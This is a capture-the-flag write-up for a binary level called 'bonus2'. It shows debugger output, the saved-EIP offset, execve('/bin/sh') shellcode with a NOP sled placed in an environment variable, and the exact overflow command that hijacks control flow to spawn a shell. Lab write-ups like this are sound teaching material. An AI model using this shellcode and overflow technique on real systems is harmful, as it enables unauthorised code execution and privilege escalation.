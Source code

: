 In this level, our executable has two functions: `main()` and `greetuser()`.

The `main` function takes 2 arguments. It copies the first argument into a 40-byte buffer:

```asm
0x08048564 <+59>:	movl   $0x28,0x8(%esp)
```

Then it copies the second argument right after the first, and finally loads the environment variable `LANG`:

```asm
0x0804859f      c704243887..   mov dword [esp], str.LANG   ; [0x8048738:4]=0x474e414c ; "LANG"
```

There are comparisons of its return value with `fi` and `nl`. If it matches:

- `fi`: the program prints `Hyvää päivää`
- `nl`: it prints `Goedemiddag!`
- Otherwise: it defaults to `Hello`

After several tries without modifying the `LANG` variable, we don’t have enough characters to overwrite the EIP fully.

The EIP is located at `0xbffff6cc`:

```sh
Breakpoint 2 (0x08048528) pending.
(gdb) i f
Stack level 0, frame at 0xbffff6d0:
 eip = 0x804852f in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6c8, args:
 Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
 Saved registers:
  ebp at 0xbffff6c8, eip at 0xbffff6cc
```

So we switch to `nl` with:

```sh
export LANG=nl
```

Now we can overwrite the EIP. We’ll replace its value with the address of a script passed via an environment variable (just like in `bonus0`).

Using the same shellcode (`execve(/bin/sh)`):

```sh
export SCRIPT=$(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

We find its address by inspecting the NOPs:

```sh
0xbffff906:	 "SCRIPT=\220\220\220\220\220\220\220\220\220\220..."
```

Memory dump confirms it:

```sh
(gdb) x/12wx 0xbffff906
0xbffff906:	0x49524353	0x903d5450	0x90909090	0x90909090
0xbffff916:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff926:	0x90909090	0x90909090	0x90909090	0x90909090
```

To place the address correctly in our second argument, we check how many characters precede the EIP. Here, we see that 23 `"B"` characters come before `0xbffff6cc`:

```sh
(gdb) x/20wx $eax
0xbffff580:	0x64656f47	0x64696d65	0x21676164	0x41414120
...
0xbffff5b0:	0x41414141	0x42424241	0x42424242	0x42424242
0xbffff5c0:	0x42424242	0x42424242	0x42424242	0xbffff926
```

So we send the following command:

```sh
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\x26\xf9\xff\xbf"')
```

Which gives us the penultimate flag of the ISO !!!
